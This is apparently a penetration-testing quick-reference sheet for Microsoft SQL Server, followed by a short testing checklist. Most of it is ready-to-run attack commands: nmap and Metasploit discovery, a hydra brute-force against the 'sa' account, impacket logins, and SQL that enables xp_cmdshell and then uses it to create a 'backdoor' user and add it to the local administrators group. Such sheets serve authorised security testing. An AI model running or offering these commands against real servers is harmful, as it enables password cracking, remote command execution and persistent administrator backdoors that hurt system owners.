 
## Quick Reference Commands

### Discovery
```bash
nmap -p 1433 --script=ms-sql-info target
impacket-mssqlclient sa@target
use auxiliary/scanner/mssql/mssql_ping
```

### Authentication
```bash
hydra -l sa -P passwords.txt mssql://target
impacket-mssqlclient sa:password@target
impacket-mssqlclient domain/user:pass@target -windows-auth
```

### Enumeration
```sql
SELECT name FROM sys.databases;
SELECT @@VERSION;
EXEC xp_cmdshell 'whoami';
```

### Command Execution
```sql
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'net user backdoor password /add';
EXEC xp_cmdshell 'net localgroup administrators backdoor /add';
```

---

## Testing Checklist

#### Discovery & Detection
- [ ] Port 1433/1434 open and accessible
- [ ] MSSQL version identification
- [ ] Browser service information gathering
- [ ] Named pipes accessibility

#### Authentication Testing
- [ ] SA account empty password testing
- [ ] Default credential verification
- [ ] Windows authentication testing
- [ ] Brute force attacks (rate-limited)

#### Database Enumeration
- [ ] Database listing and access
- [ ] Table structure discovery
- [ ] User and login enumeration
- [ ] Permission and role analysis
